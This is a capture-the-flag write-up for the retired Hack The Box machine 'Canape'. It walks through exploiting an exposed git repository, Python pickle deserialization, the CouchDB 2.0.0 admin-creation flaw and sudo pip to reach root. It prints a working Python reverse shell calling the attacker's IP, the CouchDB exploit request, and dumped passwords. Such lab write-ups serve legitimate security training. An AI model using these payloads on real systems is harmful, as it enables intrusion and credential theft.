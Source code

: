 # Canape

This is the write-up for the box Canape that got retired at the 15th September 2018.
My IP address was 10.10.14.21 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.70    canape.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/canape.nmap 10.10.10.70
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-git:
|   10.10.10.70:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: final # Please enter the commit message for your changes. Li...
|     Remotes:
|_      http://git.canape.htb/simpsons.git
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Simpsons Fan Site
|_http-trane-info: Problem with XML parsing of /evox/about
```

## Checking HTTP (Port 80)

On the web page there is a custom developed "Simpsons Fan Site" where it is possible to submit a quote to the server:

![Canape submit quote](https://kyuu-ji.github.io/htb-write-up/canape/canape_web-1.png)

In the HTML source code is a comment that may be relevant:
```markdown
<!-- c8a74a098a60aaea1af98945bd707a7eab0ff4b0 - temporarily hide check
<li class="nav-item">
<a class="nav-link" href="/check">Check Submission</a>
</li>
-->
```

When browsing to _/check_, it responses with HTTP code _405 Method Not Allowed_.
Changing the method to _POST_ then responses with HTTP code _400 Bad Request_.

The enumeration with **Nmap** found a _/.git_ repository and a subdomain.
This subdomain is also specified in _/.git/config_ where the repository lays and can be cloned from:
```markdown
git clone http://git.canape.htb/simpsons.git
```

This seems to be the backend code of the website written in _Python_.
When looking at the history of this git repository, it shows that there was a vulnerability in one of the commits:
```markdown
git log
```
```markdown
commit c8a74a098a60aaea1af98945bd707a7eab0ff4b0
Author: Homer Simpson <homerj0121@outlook.com>
Date:   Mon Jan 15 18:46:30 2018 -0800

    temporarily hide check due to vulerability
```

Lets see the differences between the vulnerable version and the current one:
```markdown
git diff c8a74a098a60aaea1af98945bd707a7eab0ff4b0
```

It uses the [Python Pickle module](https://docs.python.org/3/library/pickle.html) which is not secure and can be abused to execute arbitrary code.
I created a script to exploit this, that can be found in this repository:
```markdown
python canape_exploit-pickle.py
```

After executing the script, the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

To enumerate the box, it is a good idea to run any **Linux Enumeration Script** to get an attack surface:
```markdown
curl 10.10.14.21 | LinEnum.sh
```

After analyzing the output, it becomes clear that the process **CouchDB** is running as root and _homer_:
```markdown
root        720  0.0  0.0   4240   644 ?        Ss   06:59   0:00 runsv couchdb
root        721  0.0  0.0   4384   668 ?        S    06:59   0:00 svlogd -tt /var/log/couchdb
homer       722  0.3  3.3 649340 33504 ?        Sl   06:59   0:28 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
```

The command `netstat -alnp` shows the listening ports and CouchDB runs by default on port 5984:
```markdown
curl 127.0.0.1:5984

# Output
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

The [CouchDB API Reference](https://docs.couchdb.org/en/stable/api/) explains the information to get from the database. Lets output all database names:
```markdown
curl 127.0.0.1:5984/\_all_dbs

# Output
["\_global_changes","\_metadata","\_replicator","\_users","passwords","simpsons"]
```

Now it is possible to get the database contents:
```markdown
curl 127.0.0.1:5984/simpsons/\_all_docs

# Output
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
]}
```

```markdown
curl 127.0.0.1:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9

# Output
{"\_id":"f0042ac3dc4951b51f056467a1000dd9","\_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
```

This is the database that holds the quotes from the web page.
The _passwords_ database responses that we are not authorized to access it:
```markdown
curl 127.0.0.1:5984/passwords/

# Output
{"error":"unauthorized","reason":"You are not authorized to access this db."}
```

Lets look for vulnerabilities in **CouchDB 2.0.0**:
```markdown
searchsploit couchdb
```

There is a [Apache CouchDB < 2.1.0 - Remote Code Execution](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html) vulnerability, which with it is possible to create a new user.
First the following `curl` command has to be sent to the box to the local CouchDB service:
```markdown
curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:newuser'
--data-binary '{
  "type": "user",
  "name": "newuser",
  "roles": ["\_admin"],
  "roles": [],
  "password": "password"
}'
```

It was successful and created the user _newuser_:
```markdown
{"ok":true,"id":"org.couchdb.user:newuser","rev":"1-d9e411349288f7c530246df5e2d3b09a"}
```

Now accessing the database _passwords_ with authentication:
```markdown
curl --user 'newuser:password' 127.0.0.1:5984/passwords/\_all_docs

# Output
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

Output all four passwords one by one:
```markdown
curl --user 'oops:password' 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
(...)
```

This leaves us with some interesting results
```markdown
_{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}_
```

The most important one is the SSH password _"0B4jyA0xtytZi7esBNGp"_ and as there is only one user called _homer_, we can probably switch to that user:
```markdown
su homer
```

### Privilege Escalation to root

Lets look at the `sudo` privileges of _homer_:
```markdown
sudo -l
```
```markdown
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

This user can run `pip install`, which installs Python modules, as root. So creating a malicious Python script to execute that with `pip` will escalate privileges to root.

Creating a Python script _(setup.py)_ that starts a reverse shell:
```markdown
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.21",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Executing the script with root privileges:
```markdown
sudo pip install .
```

After executing the command, the listener on my IP and port 9002 starts a reverse shell as root!
